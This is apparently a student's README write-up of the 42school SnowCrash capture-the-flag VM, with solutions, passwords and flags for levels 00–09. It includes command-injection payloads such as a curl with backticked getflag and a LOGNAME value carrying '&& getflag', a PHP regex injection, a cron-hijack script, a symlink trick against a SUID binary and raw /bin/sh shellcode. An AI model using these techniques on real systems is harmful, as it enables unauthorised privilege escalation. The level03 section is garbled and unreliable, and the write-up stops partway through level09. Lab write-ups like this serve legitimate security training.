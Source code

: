 # snow_crash
Security project of 42school


Link to the VM: https://projects.intra.42.fr/uploads/document/document/5137/SnowCrash.iso.


## Level00

Find interesting files: `find / -user flag00`.
File conraining `cdiiddwpgswtgt` founded.
Supposed to be a `Caesar Cipher`. Use [Dcode](https://www.dcode.fr/caesar-cipher).
Password is: `nottoohardhere`.
Flag is: `x24ti5gi3x0ol2eh4esiuxias`

## level01
Find interesting files: `find / -user flag01`.
Nothing founded, let's check in `/etc/passwd`.
Found:
`flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash`.
Put this onto a user.txt file and give it to `John`.
John output:
`flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash`.    

Password is: `abcdefg`.
Flag is: `f2av5il02puano7naaf6adaaf`.

## level02

There is a `level02.pcap` file. a `.pcap` file can be opened with `wireshark` and represent a capture of some network transmissions.     
First we need to extract this file using `scp`.
`scp -q -P 2222 level02@10.64.1.226:./level02.pcap ./level02/`

Then I open the file with Wireshark, select the first packet and `Follow the TCP stream`.
Now I can see the password in plain text: `Password: ft_wandr...NDRel.L0L`.
Then I need to interpret the DEL characters and get the remaining password.

Password is: `ft_waNDReL0L`.
Flag is: `kooda2puivaav1idi4f57q8iq`.

## level03

First I download the file to inspect it localy with:
`scp -q -P 2222 level03@10.1.6.4:./level03 ./level03/`
\003\205\004\b\340\205\004\b\323\a"

\x48\xc7\xc0\x3b\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x49\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x48\xc7\xc0\x3c\x00\x00\x00\x48\xc7\xc7\x00\x00\x00\x00\x0f\x05\\


0xbffff8fb
/tmp/O:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
scp -P 2222 echo.c level03@10.64.1.240:/tmp/O/
Flag is: `qi0maab88jeaj46qoumi7maus`.

## level04

There is a `level04.pl` file.
run: curl -v http://localhost:4747/?x=\`getflag\`

Flag is: `ne2searoevaevoem4ov4ar8ap`.

## level05

A message inform you that you have a new mail.
Display it with:    
`cat /var/mail/level05`
It informs you about a current cronjob:    
`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`.

Find other interesting files: `find / -user flag05`.    
Bash script founded: `/usr/sbin/openarenaserver`.    

Exploit it with:
```
    mkdir /tmp/file
    touch /tmp/file/flag
    chmod 777 /tmp/file/flag
    echo "getflag > /tmp/file/flag" > /opt/openarenaserver/file
```
Then wait for the cron to run.
You can now display the flag with `cat /tmp/file/flag`.

Flag is: `viuaaale9huek52boumoomioc`.

## level06

There is two files:
- level06.php (a php code)
- level06 (the compiled SUID version of the above)

1 - open a file and read its content.
2 - Decode the regex and execute command.

Payload: "[x ${`getflag`}]"
Flag is: `wiok45aaoguiboiki2tuin6ub`.

## level07

There is a file called `level07`.    

syscall founded:
- system
- asprintf
- getenv

strings founded:
- `/bin/echo %s`
- `LOGNAME`

1- the program use `system`.
2- the programme give it the string: `/bin/echo %s`.
3- the program get the env variable `LOGNAME` and give it to asprintf.

Payload: export LOGNAME="level07 && getflag"
Flag is: `fiumuikeil55xe9cu4dood66h`.

## level08

There is 2 files:
- `level08` a SUID to exploit
- `token` an unreadable little file

`level08` dump the content of a file passed in parameter except if it's called `token`.    
 First I gived myself the write permissions on the local directory with: `chmod +w .`.   
 Then I create a symbolic link on token with: `ln -s token ./dodo` and give it to `level08`.    
 That gived me: `quif5eloekouj29ke0vouxean`.    

 Then `su flag08` and `getflag`:    
 Flag is: `25749xKZ8L7DkSCwJkT9dyv6f`

## level09

There is 2 files (again):
- `level09` a SUID to exploit
- `token` an little readable file

`token` content:
0000000: 6634 6b6d 6d36 707c 3d82 7f70 826e 8382  f4kmm6p|=..p.n..
0000010: 4442 8344 757b 7f8c 890a                 DB.Du{....

Gived to `./level09`:
0000000: 6635 6d70 713b 7683 458b 897b 8e7b 9191  f5mpq;v.E..{.{..
0000010: 5453 9557 8990 95a3 a10a                 TS.W......

Gived to `./level09` a second time:
0000000: 6636 6f73 7540 7c8a 4d94 9386 9a88 9fa0  f6osu@|.M.......
0000010: 6464 a76a 9da5 abba b90a                 dd.j......